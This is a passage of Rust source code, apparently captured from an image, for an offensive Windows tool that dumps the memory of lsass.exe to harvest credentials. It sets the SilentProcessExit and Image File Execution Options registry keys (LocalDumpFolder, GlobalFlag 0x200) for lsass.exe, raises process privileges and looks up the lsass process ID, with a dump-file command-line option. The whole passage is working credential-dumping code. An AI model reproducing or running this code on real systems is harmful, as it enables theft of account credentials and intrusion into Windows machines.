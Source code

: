 ```rust
        let ReportingModekey = CString::new("LocalDumpFolder").unwrap();
        let ret = RegSetValueExA(
            hSubKey,
            ReportingModekey.as_ptr() as *const u8,
            0,
            REG_SZ,
            ReportingModevalue.as_ptr(),
            ReportingModevalue.len() as u32
        );
        if ret != 0{
            println!("[-] SetReportingModekeyKey SilentProcessExit\\lsass.exe ERROR\n");
        }

        let mut hSubKey = HKEY::default();
        let ret = RegCreateKeyExW(
            key,
            OsString::from(IFEO_REG_KEY).encode_wide().chain(Some(0)).collect::<Vec<u16>>().as_ptr(),
            0, 
            null_mut(), 
            0, 
            KEY_ALL_ACCESS, 
            ptr::null_mut(), 
            &mut hSubKey, 
            ptr::null_mut());
        if ret != 0  {
            println!("[-] CreateKey {:?} ERROR\n",IFEO_REG_KEY);
        }

        let GlobalFlagvalue = std::mem::transmute::<&i32,*const u8>(&0x0200) ;
        let GlobalFlagkey = CString::new("GlobalFlag").unwrap();
        let ret = RegSetValueExA(
            hSubKey,
            GlobalFlagkey.as_ptr() as *const u8,
            0,
            REG_DWORD,
            GlobalFlagvalue,
            size_of::<u32>() as u32
        );
        if ret != 0{
            println!("[-] SetReportingModekeyKey SilentProcessExit\\lsass.exe ERROR\n");
        }
        println!("SetRegistryReg successful!");
    }
}

fn main() {
    let matches = App::new("SysWhispers3 - SysWhispers on steroids")
    .arg(Arg::with_name("DumpFileName")
        .short("f")
        .long("DumpFileName")
        .takes_value(true)
        .help("DumpFileName Path like C:\\temp.dmp")).get_matches();
    let mut out_file = "";
    if   matches.is_present("DumpFileName") {
        out_file = matches.value_of("DumpFileName").expect("get DumpFileName args error");
    }else {
        out_file = "lsass.dmp";
    }
    // getProcess(out_file);
    getPrivilege(unsafe { GetCurrentProcess() });
    setRegisterRegs();
    let lsassPid = getPid("lsass.exe");
```
